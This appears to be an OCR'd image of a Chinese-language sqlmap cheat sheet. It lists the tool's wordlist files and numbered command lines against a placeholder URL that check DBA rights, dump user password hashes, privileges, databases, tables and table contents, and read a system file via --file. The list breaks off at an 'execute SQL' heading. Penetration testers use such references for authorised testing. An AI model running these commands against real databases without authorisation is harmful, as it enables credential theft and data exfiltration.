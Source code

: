 oracle-default-passwords.txt

user-agents.txt

wordlist.txt

1)判断当前用户是否是dba

python sqlmap.py -u "url" --is-dba -v 1

2)--users:列出数据库管理系统用户

python sqlmap.py -u "url" --users -v 0

3)--passwords:数据库用户密码(hash)

python sqlmap.py -u "url" --passwords -v 0

python sqlmap.py -u "url" --passwords -U sa -v 0

4)查看用户权限

python sqlmap.py -u "url" --privileges -v 0

python sqlmap.py -u "url" --privileges -U postgres -v 0

5)--dbs可以利用的数据库

python sqlmap.py -u "url" --dbs -v 0

6)--tables列数据库表

python sqlmap.py -u "url" --tables -D "information_scheam"

-D:指定数据名称

7)--columns 列出表中的列名

python sqlmap.py -u "url" --columns -T "user" -D "mysql" -v 1

-T:指定表名，-D:指定库名

8)--dump列表中指定列的内容

python sqlmap.py -u "url" --dump -T "users" -D "testdb"

-C:可以指定字段

指定列的范围为2到4

python sqlmap.py -u "url" --dump -T "users" -D "testdb" --start 2 --stop 4 -v 0

9)--dumap-all列出所有数据库，所有表内容

python sqlmap.py -u "url" --dump-all -v 0

只列出用户自己新建的数据库和表的内容

python sqlmap.py -u "url" --dump-all --exclude-sysdbs -v 0

10)--file读取文件内容[load_file()函数]

python sqlmap.py -u "url" --file /etc/password

11)执行SQL
